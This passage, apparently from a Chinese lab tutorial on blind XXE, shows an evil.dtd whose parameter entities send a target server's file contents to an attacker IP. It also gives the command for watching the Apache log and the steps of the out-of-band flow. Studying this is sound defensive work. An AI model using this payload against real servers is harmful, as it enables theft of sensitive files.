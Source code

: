 远程服务器部署 evil.dtd 内容为：

```bash
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://192.168.201.128/?content=%file;'>"> %payload;
```

%要进行实体编码`&#x25`  
进行 XXE 攻击后，服务器会把文件内容发送到攻击者服务器 (这里是 ubantu 的 apache 日志记录)  
[![](assets/1698897471-2644a0fcd666d6efc490d68eeddd106d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151838-f5f6d848-14d3-1.jpg)  
ubantu 查看 apache 日志记录命令：

```bash
tail -f /var/log/apache2/access.log
```

本地抓包也可以看到 Base64 编码后的文件内容  
[![](assets/1698897471-cb0392191039272755b2374e9b124164.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151949-20888bc4-14d4-1.jpg)  
*无回显攻击流程：*

-   先调用`%dtd`，请求远程服务器 (攻击服务器) 上的`evil.dtd`。
-   再调用 `evil.dtd`中的 `%file`。`%file` 获取受攻击的服务器上面的敏感文件，然后将 `%file` 的返回结果传到`%send` 。
-   然后调用 `%send;` 把读取到的数据发送到远程服务器上。

这样就实现了外带数据的效果，解决 XXE 无回显的问题。

**使用并分析恶意脚本**  
xxe2.php
